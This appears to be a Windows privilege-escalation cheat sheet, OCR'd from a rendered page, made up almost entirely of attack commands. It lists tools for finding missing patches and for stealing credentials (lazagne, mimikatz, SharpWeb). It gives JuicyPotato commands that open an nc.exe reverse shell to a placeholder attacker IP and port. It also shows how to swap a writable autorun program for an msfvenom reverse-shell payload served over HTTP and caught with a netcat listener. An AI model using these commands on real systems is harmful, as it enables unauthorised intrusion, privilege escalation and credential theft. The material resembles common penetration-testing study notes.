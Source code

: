 winPEAS.bat
Search for CVE
systeminfo > systeminfo.txt
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --database <DATE>-mssb.xlsx --systeminfo systeminfo.txt

systeminfo > systeminfo.txt
wmic qfe > qfe.txt
python wes.py -u
python wes.py systeminfo.txt qfe.txt

powershell -exec bypass -command "& { Import-Module .\Sherlock.ps1; Find-AllVulns; }"
Post exploitation
lazagne.exe all
SharpWeb.exe
mimikatz.exe
JuicyPotato (SeImpersonate or SeAssignPrimaryToken)
If the user has SeImpersonate or SeAssignPrimaryToken privileges then you are SYSTEM.

JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t *
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t * -c <CLSID>

# CLSID
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
Methodology to follow
https://guif.re/windowseop
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
https://mysecurityjournal.blogspot.com/p/client-side-attacks.html
http://www.fuzzysecurity.com/tutorials/16.html
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
Autorun
Detection
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for modifiable registry autoruns and configs...

Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\My Program
Path           : "C:\Program Files\Autorun Program\program.exe"
ModifiableFile : @{Permissions=System.Object[]; ModifiablePath=C:\Program Files\Autorun Program\program.exe; IdentityReference=Everyone}
or

winPEAS.exe

[+] Autorun Applications(T1010)
    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
Exploitation
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>
